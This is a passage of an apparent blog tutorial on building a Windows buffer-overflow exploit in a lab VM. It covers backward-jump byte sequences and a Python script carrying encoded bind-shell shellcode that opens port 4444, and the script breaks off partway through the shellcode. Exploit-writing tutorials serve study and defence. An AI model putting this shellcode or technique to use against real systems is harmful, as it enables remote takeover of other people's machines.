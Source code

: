 
As we can see in the exploit code, the solution to this is to use the sequence \\xeb\\xF0\\x90\\x90 or a short jump backwards to gain more space to jump backwards.


[![](https://2.bp.blogspot.com/-hWDi8E-arhM/VEGjQN7PkcI/AAAAAAAAAcM/SDsHec_Mkcw/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_066.png)](https://2.bp.blogspot.com/-hWDi8E-arhM/VEGjQN7PkcI/AAAAAAAAAcM/SDsHec_Mkcw/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_066.png)


Once this jump was executed, we need a bigger jump backwards to get to the start or near the start of our shellcode. The bytes \\xE9\\xF3\\xFC\\xFF\\xFF will satisfy this requirement and perform a long jump back near the beginning of our shellcode, as can be seen in our debugger:


[![](https://1.bp.blogspot.com/-Nlh0UdC-R_Y/VEGuMkus_6I/AAAAAAAAAdA/7rI77nvnIe0/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_074.png)](https://1.bp.blogspot.com/-Nlh0UdC-R_Y/VEGuMkus_6I/AAAAAAAAAdA/7rI77nvnIe0/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_074.png)

[
](https://3.bp.blogspot.com/-bKAX0JrrJ9E/VEGsENgV-iI/AAAAAAAAAcc/uKO7N32Pbaw/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_071.png)


As you can see this results in us hitting somewhere near the beginning of our shellcode:


[![](https://2.bp.blogspot.com/-e0Z296USo4Q/VEGubzPf4aI/AAAAAAAAAdQ/hm5wII-fSaU/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_075.png)](https://2.bp.blogspot.com/-e0Z296USo4Q/VEGubzPf4aI/AAAAAAAAAdQ/hm5wII-fSaU/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_075.png)



Ok, now all we have to modify the exploit one last time to include the exploit code for a windows/shell\_bind\_tcp shell on port 4444, excluding the bad characters \\x00\\x20\\x3F:


> #!/bin/python
> import socket
> 
> shellcode = "\\x90" \* 20
> 
> buf = ""
> buf += "\\xb8\\x5d\\x64\\xb6\\xa1\\xdb\\xde\\xd9\\x74\\x24\\xf4\\x5b\\x2b"
> buf += "\\xc9\\xb1\\x56\\x31\\x43\\x13\\x03\\x43\\x13\\x83\\xc3\\x59\\x86"
> buf += "\\x43\\x5d\\x89\\xcf\\xac\\x9e\\x49\\xb0\\x25\\x7b\\x78\\xe2\\x52"
> buf += "\\x0f\\x28\\x32\\x10\\x5d\\xc0\\xb9\\x74\\x76\\x53\\xcf\\x50\\x79"
> buf += "\\xd4\\x7a\\x87\\xb4\\xe5\\x4a\\x07\\x1a\\x25\\xcc\\xfb\\x61\\x79"
> buf += "\\x2e\\xc5\\xa9\\x8c\\x2f\\x02\\xd7\\x7e\\x7d\\xdb\\x93\\x2c\\x92"
> buf += "\\x68\\xe1\\xec\\x93\\xbe\\x6d\\x4c\\xec\\xbb\\xb2\\x38\\x46\\xc5"
> buf += "\\xe2\\x90\\xdd\\x8d\\x1a\\x9b\\xba\\x2d\\x1a\\x48\\xd9\\x12\\x55"
> buf += "\\xe5\\x2a\\xe0\\x64\\x2f\\x63\\x09\\x57\\x0f\\x28\\x34\\x57\\x82"
> buf += "\\x30\\x70\\x50\\x7c\\x47\\x8a\\xa2\\x01\\x50\\x49\\xd8\\xdd\\xd5"
> buf += "\\x4c\\x7a\\x96\\x4e\\xb5\\x7a\\x7b\\x08\\x3e\\x70\\x30\\x5e\\x18"
> buf += "\\x95\\xc7\\xb3\\x12\\xa1\\x4c\\x32\\xf5\\x23\\x16\\x11\\xd1\\x68"
> buf += "\\xcd\\x38\\x40\\xd5\\xa0\\x45\\x92\\xb1\\x1d\\xe0\\xd8\\x50\\x4a"
> buf += "\\x92\\x82\\x3c\\xbf\\xa9\\x3c\\xbd\\xd7\\xba\\x4f\\x8f\\x78\\x11"
> buf += "\\xd8\\xa3\\xf1\\xbf\\x1f\\xc3\\x28\\x07\\x8f\\x3a\\xd2\\x78\\x99"
> buf += "\\xf8\\x86\\x28\\xb1\\x29\\xa6\\xa2\\x41\\xd5\\x73\\x64\\x12\\x79"
> buf += "\\x2b\\xc5\\xc2\\x39\\x9b\\xad\\x08\\xb6\\xc4\\xce\\x32\\x1c\\x73"
> buf += "\\xc9\\xfc\\x44\\xd0\\xbe\\xfc\\x7a\\xc7\\x62\\x88\\x9d\\x8d\\x8a"
> buf += "\\xdc\\x36\\x39\\x69\\x3b\\x8f\\xde\\x92\\x69\\xa3\\x77\\x05\\x25"
> buf += "\\xad\\x4f\\x2a\\xb6\\xfb\\xfc\\x87\\x1e\\x6c\\x76\\xc4\\x9a\\x8d"
> buf += "\\x89\\xc1\\x8a\\xc4\\xb2\\x82\\x41\\xb9\\x71\\x32\\x55\\x90\\xe1"
> buf += "\\xd7\\xc4\\x7f\\xf1\\x9e\\xf4\\xd7\\xa6\\xf7\\xcb\\x21\\x22\\xea"
> buf += "\\x72\\x98\\x50\\xf7\\xe3\\xe3\\xd0\\x2c\\xd0\\xea\\xd9\\xa1\\x6c"
> buf += "\\xc9\\xc9\\x7f\\x6c\\x55\\xbd\\x2f\\x3b\\x03\\x6b\\x96\\x95\\xe5"
> buf += "\\xc5\\x40\\x49\\xac\\x81\\x15\\xa1\\x6f\\xd7\\x19\\xec\\x19\\x37"